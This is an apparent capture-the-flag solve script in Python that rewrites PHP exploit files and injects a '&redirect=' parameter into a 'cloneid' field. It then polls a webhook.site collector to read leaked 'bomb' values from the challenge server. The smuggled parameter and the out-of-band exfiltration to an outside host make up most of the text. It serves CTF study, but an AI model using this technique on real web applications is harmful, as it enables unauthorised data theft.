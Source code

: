 ```py
    m = re.search(r'<code>(.*)</code>', r.text)

    assert m is not None

    userid = m.group(1)

    print("User ID: " + userid)


print("Creating board")
s.get(chall_url + "/board")

print("Adapting exploit")

with open("index.php", "r") as f:
    exploit = f.read()

exploit = re.sub(r"cloneid=(\w+)'", f"cloneid={userid}'", exploit)
exploit = re.sub(r"https?://[\w\:\-\/\.]+/clone", f"{chall_url}/clone", exploit)

with open("index.php", "w") as f:
    f.write(exploit)

with open("x.php", "r") as f:
    exploit = f.read()

exploit = re.sub(r"'[\w\:\-\/\.]+\?bomb", f"'{webhook_url}?bomb", exploit)

with open("x.php", "w") as f:
    f.write(exploit)

with open("submit.php", "r") as f:
    exploit = f.read()

exploit = re.sub(r"https?://[\w\:\-\/\.]+/guess", f"{chall_url}/guess", exploit)

with open("submit.php", "w") as f:
    f.write(exploit)


def test_board(i=0):
    data = {"cloneid": "aaa&redirect=" + exploit_url + "/?i=" + str(i)}
    r = s.post(chall_url + "/checkboard", data=data)

    for _ in range(15):
        r = requests.get('https://webhook.site/token/'+ token_id +'/requests')

        if len(r.json()['data']) != 0:

            bomb = True
            for request in r.json()['data']:
                print(request['url'] + '    -  ' + request['uuid'])
                if 'bomb=false' in request['url']:
                    bomb = False

                # Delete request
                r = requests.delete('https://webhook.site/token/'+ token_id + '/request/' + request['uuid'])
                assert r.status_code == 200
            
            return bomb

        time.sleep(2)
```